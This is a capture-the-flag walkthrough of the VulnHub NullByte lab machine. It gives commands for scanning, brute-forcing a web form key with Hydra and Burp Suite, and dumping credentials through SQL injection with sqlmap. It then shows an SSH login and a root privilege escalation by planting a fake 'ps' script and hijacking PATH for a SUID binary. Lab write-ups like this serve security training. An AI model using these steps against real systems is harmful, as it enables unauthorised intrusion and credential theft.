 # VulnHub Walkthrough: 🟢 NullByte

Nullbyte Walkthrough

### Details

* Name: Nullbyte ([VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/))
* Goal/Objective: Get */root/proof.txt*

### Scanning

Begin by using *netdiscover* to scan for computers/devices on the network:
```bash
sudo netdiscover
```

This returns the IP address of the target machine: ***192.168.132.88***. From there do a intial nmap scan on the network:
```bash
nmap -A -p0-65535 192.168.132.88
```

Ports found open:     
- 80/tcp - HTTP 
- 111/tcp - RPCBIND
- 777/tcp - SSH
- 60316/tcp

Two services that stand out are HTTP & SSH. Note that SSH (port 22) is being forwarded to port 777 (keep in mind for later).

### Website Exploring

I then proceeded to visit the website (http://192.168.132.88:80) to some investigating. The source code for the website did not display anything promising as it only contains a image & some text.

However, I decided to check the image using exiftool to see if there was anything hidden within the metadata:
```bash
exiftool main.gif
```
Looking through the output, I was able to see that there was a section labeled "comments" that contained something that could be useful: *P-): kzMb5nVYJw*


While all this was being done, I did my normal routine of website scanning to help look for extra directories, etc:
```bash
# nikto scan
nikto -h http://192.168.132.88

# gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.132.88/

# dirb
dirb 192.168.132.88
```
The most important directories that were returned were */uploads* and ***/phpmyadmin/***

### 'Key' cracking

Remember that string that was returned by exiftool? The one labeled as a comment? "P-): kzMb5nVYJw". Yeah we're going to need that. If you remove the first couple of characters up until the space, you're left with "kzMb5nVYJw". This ends up being a directory within the website, http://192.168.132.88/kzMb5nVYJw.

On this page we see a very simple page that contains a textbox titled "Key". However the issue is.. we don't have a key yet.

There are two ways to approach cracking this "Key", using Hydra or Burpsuite. I will show you both.

### Hydra

If you open up the developer tools and go to the "Network" tab, and reload the website. You notice there is a POST request being made. If you click on it and expand the "Request" tab, you see that it is a value *key* is being used as form data. With all this in mind, we can use it to construct a hydra command to help us guess the value of "key".
```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.132.88 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```
A quick breakdown of the command we're using:
* -l: username (none)
* -P: "password" wordlist
* http-post-form: Recall it is a POST call being made using the form
* "/kzMb5nVYJw/index.php:key=^PASS^:invalid key": We encode the *key* to be url encoded so that it can be passed as an argument, then we use '^' to surround the value that we want hydra to brute form, the password aka the "key"

The hydra command is able to find the password/key: elite

### Burpsuite

We will use burpsuite to also brute-force the value of "key".

Start off by opening Burpsuite and selecting the proxy tab. Then click on "open browser" and visit the page that needs the key, http://192.168.132.88/kzMb5nVYJw. Next click on "interceptor on", then on the website type in anything into the textbox and press enter. 

Then once the data is returned/shown on burpsuite, next to the "intercept is on" button, click on "Action" button and select "Send to Intruder". This will send the information over to the Intruder tab.
Switch to the Intruder tab, and at the bottom of the page, highlight the section of the string after the "=" and click on button on the right "Add". Once this is done, you should be able to switch tabs from "Positions" over to the "Payloads" tab. From here the only thing you need to do is on the "Payload setting", click on "Load" and go to "/usr/share/wordlists" to select the wordlist you would like to use. Once you have done this, you may press the orange button on the top right, "Start attack".

## SQL

Now that we have the key, we can use it on the page. We are now greeted with a page that seems to allow us to search for usernames.

Leaving the text-box empty and pressing enter returns a couple of entries from what appears to be a employee database. 

Since this seems to use mysql, let's try using *sqlmap* to explore the database.
```bash
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs
```
We see that sqlmap returns 5 databases. The two that we will explore are 'mysql' and 'seth'.

If you are not familiar with SQL, recall: A database contains tables. A table can be pictured as an excel file, where there are rows and columns of information.

### 'mysql' table

Let's first explore the *mysql* database
```bash
# Check what databases are available
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs

# Check what tables are in the 'mysql' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql --tables

# Check what columns are in the 'user' table (from the 'mysql database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user --columns

# Display User + Password from the 'user' table (from the 'mysql' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user -C User,Password --dump
# Note that the command above will ask if you would like sqlmap to try and crack the passwords via a dictionary-based attack - select 'Y', then press enter to use the default password list.
```
sqlmap returns:
* User: ***root*** | Password: ***sunnyvale***
* User: ***phpmyadmin*** | ***sunnyvale***

### 'seth' table

Next, let's explore the *seth* database
```bash
# Check what tables are in the 'seth' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables

# Check what columns are in the 'users' table (from the 'seth database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns

# Display user + pass from the 'users' table (from the 'seth' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C user,pass --dump
```
sqlmap returns:
* user: ***ramses*** | pass: ***YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE1***
* You can use a website to decrypt this md5 password twice to get the password: ***omega***

## SSH

One thing to quickly notice is that we now have the credentials for the */phpmyadmin/* page (root/sunnyvale). However, I wasn't able to find anything important here.

So instead, let's try and use the credentials that we found from the 'seth' database to try and login via SSH:
```bash
# Notice we're using port 777
ssh ramses@192.168.132.88 -p 777
```

## Priviledge Escalation

Now that we're in, we need to find a way to get root user.

Check to see if anything is out of the ordinary:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Notice that there is something within the www directory called 'procwatch'. If we try to run it, the output looks similar to a cron job.
```bash
/var/www/backup/procwatch
```

It seems that it is attempting to deploy ps, but unable to do so. Go to the directory and create a script that will launch a bash shell.
```bash
# Go to correct directory
cd /var/www/backups

# Create bash script and title it ps
echo "/bin/bash" > ps

# Add root privileges to the file
chmod 777 ps
```


Now, let's check if this is just a script to run the *ps* command:
```bash
# env = list all environment variables | grep PATH = return line containing PATH
env | grep PATH

# Alternatively you can do
echo $PATH
```

Update the PATH for environment variables:
```bash
# Essentially what this command does is add "." + $PATH
export PATH=.:$PATH
```

Finally run `./procwatch`
